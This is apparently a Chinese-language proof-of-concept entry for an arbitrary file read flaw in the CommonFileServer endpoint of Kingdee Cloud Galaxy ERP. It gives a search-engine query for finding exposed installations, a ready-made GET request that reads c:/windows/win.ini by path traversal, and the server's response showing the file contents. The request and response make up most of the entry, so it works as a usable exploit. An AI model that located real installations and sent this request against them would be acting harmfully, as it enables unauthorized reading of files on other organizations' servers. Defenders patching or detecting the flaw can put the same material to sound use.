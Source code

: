 # 金蝶云星空 CommonFileserver 任意文件读取漏洞

## 1.漏洞描述

金蝶云星空是金蝶集团面向大中型企业的一个核心产品，聚焦多组织，多利润中心的企业。它以“开放、标准、社交”三大特性为数字经济时代的企业提供开放的ERP云平台。该产品CommonFileServer存在任意文件读取漏洞。

## 2.搜索语法

```plain
title="金蝶云星空 管理中心"
```

## 3.漏洞复现

```plain
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 127.0.0.1
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

响应包如下：

```plain
HTTP/1.1 200 OK
Cache-Control: private
Pragma: public
Content-Length: 167
Content-Type: application/x-zip-compressed; charset=utf-8
Server: Microsoft-IIS/10.0
Content-Disposition: attachment; filename=win.ini
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 13 Jun 2024 13:38:51 GMT

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
CMCDLLNAME32=mapi32.dll
CMC=1
MAPIX=1
MAPIXVER=1.0.0.1
OLEMessaging=1
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/b3527ba9-0a3b-42da-b813-083ed94eb58f)
